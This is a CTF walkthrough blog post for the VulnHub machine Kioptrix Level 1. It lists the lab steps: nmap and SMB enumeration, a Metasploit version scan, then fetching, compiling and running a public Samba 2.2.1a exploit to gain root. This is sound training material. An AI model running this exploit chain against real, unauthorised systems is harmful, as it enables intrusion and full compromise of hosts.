 ```yaml
---
title: "Vulhub-Kiotrix Level 1 Walkthrough"
date: 2024-01-24
categories: [Vulnhub, CTF]
image: /assets/Kioptrix_Cover.jpg
tags: [Kioptrix, Boot2Root, Penetration Testing, Samba Exploit]
description: "A walkthrough for hacking the vulnerable machine Kioptrix Level 1 from VulnHub."
active: true
retire_date: 2025-05-10T00:00:00Z

---
```


## Introduction
Welcome to the Kiotrix Level 1 challenge. This is a walkthrough for hacking the vulnerable machine **Kioptrix Level 1** from VulnHub. There are various ways to root this box, and I will keep the process clear and concise. Let's get started.

## Challenge Details
- **Name:** Kiotrix Level 1  
- **Category:** Boot2Root  
- **Difficulty:** Easy  

## Prerequisites
Before you begin, ensure that you have the following:
- **Kali Linux** or any other preferred penetration testing distribution.
- **Kioptrix Level 1 VM** installed and running.
![Kioptrix VM Running](/assets/1kioprix.png)

## Walkthrough
### Step 1: Reconnaissance
#### Network Discovery and Setup
Execute the following command on your attack machine to check if Kioptrix Level 1 is on the network:
```bash
arp-scan -l
```
If Kioptrix is not detected, troubleshoot and ensure it is installed correctly.
![Kioptrix VM Running](/assets/2kioptrix.png)

Identified IP address:
```bash
192.168.10.171
```

### Step 2: Enumeration
Run an Nmap scan to identify open ports and services:
```bash
nmap -A -p- -T4 192.168.10.171
```
The results show that **port 80 is open**, displaying a test page in the browser.
![Kioptrix VM Running](/assets/4kioptrix.png)
![Kioptrix VM Running](/assets/3kioptrix.png)

Additionally, **Samba service** is detected, which will be crucial for privilege escalation.

### Step 3: Samba Enumeration
Utilize `enum4linux` and `smbclient` to confirm the presence of Samba on the remote host.
![Kioptrix VM Running](/assets/5kioptrix.png)

Start Metasploit and use the auxiliary scanner:
![Kioptrix VM Running](/assets/6kioptrix.png)
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.10.171
run
```

The results show that **Samba 2.2.1a** is running, which is vulnerable to multiple exploits.

### Step 4: Exploitation - Samba 2.2.1a
Search for available exploits using `searchsploit`:
```bash
searchsploit samba 2.2.1a
```
The results show multiple exploits, and we choose `multiple/remote/10.c`.
![Kioptrix VM Running](/assets/9kioptrix.png)

Download the exploit:
```bash
searchsploit -m multiple/remote/10.c
```
![Kioptrix VM Running](/assets/10kioptrix.png)

Compile the exploit:
```bash
gcc -o sambaexploit 10.c
```
![Kioptrix VM Running](/assets/11kioptrix.png)

Execute the exploit:
```bash
./sambaexploit -b 192.168.10.171
```
![Kioptrix VM Running](/assets/12kioptrix.png)

After execution, verify root access:
```bash
whoami
```
![Kioptrix VM Running](/assets/13kioptrix.png)
![Kioptrix VM Running](/assets/14kioptrix.png)

## Conclusion
You've successfully completed Kiotrix Level 1. This walkthrough provided a step-by-step guide to solving the challenge. If you encountered any issues or have questions, feel free to reach out!

Remember to document and understand the techniques used, as they may be helpful in future CTFs. **Happy hacking!**

